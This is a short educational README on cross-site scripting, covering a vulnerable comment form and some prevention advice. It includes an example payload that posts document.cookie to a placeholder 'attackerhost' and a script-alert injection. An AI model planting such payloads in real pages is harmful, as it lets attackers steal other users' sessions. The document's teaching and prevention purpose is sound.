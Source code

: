 # XSS-ATTACK
this section is talking about xss attack and its prevention

**If you have not been familiar with HTML / Javascript, you can pass this section temporily**

## Table of Contents
- [XSS](#xss)
- [XSS-Examples](#xss-examples)
- [XSS-Prevention](#xss-prevention)
- [References](#references)

## XSS
XSS ( Cross-site scripting ) enables attackers to **inject client-side script into web pages** viewed by other users

## XSS-Examples

- Precondition
  1. You make a forum website and let users to write down their comments
  ```html
  <form method='post' action="comments">
    <textarea name='comment' id='comment'></textarea>
    <input type='submit' value='Submit' />  
  </form>
  ```

  2. The website stores the origin comment without any processing
  3. When the other users view a comment, they may get
  ```html
  <div>
    [ the comments ]
  </div>
  ```
  **where the comments are the origin text without any processing**


  - Case 1
    1. If an attacker write down comments like this
    ```javascript
    <script>alert('You are attacked')</script>
    ```
    2. Any user views this comment would get an an alert window with text `You are attacked`


  - Case 2
    1. If an attacker write down comments like this
    ```javascript
    $.post( "http://attackerhost/cookies", { cookie: document.cookie } );
    ```
    2. The other user's cookie would be stolen when they are viewing this comment

## XSS-Prevention
We can see that **XSS is very dangerous** because attackers can execute whatever they want !

Backend / Frontend developers should make sure no script from users can be executed.

- Content Filtering : encode / escape the sensitive words ( e.g. `<`, `>` )

  - before
  ```html
  <b>very</b> large
  ```

  - after
  ```
  %3Cb%3Every%3C/b%3E%20large
  ```

- Disabling Scripts : disable javascript in the browser, nothing can be executed

## References
- https://en.wikipedia.org/wiki/Cross-site_scripting
- https://github.com/astaxie/build-web-application-with-golang/blob/master/zh/09.3.md
- http://www.w3schools.com/jsref/jsref_escape.asp
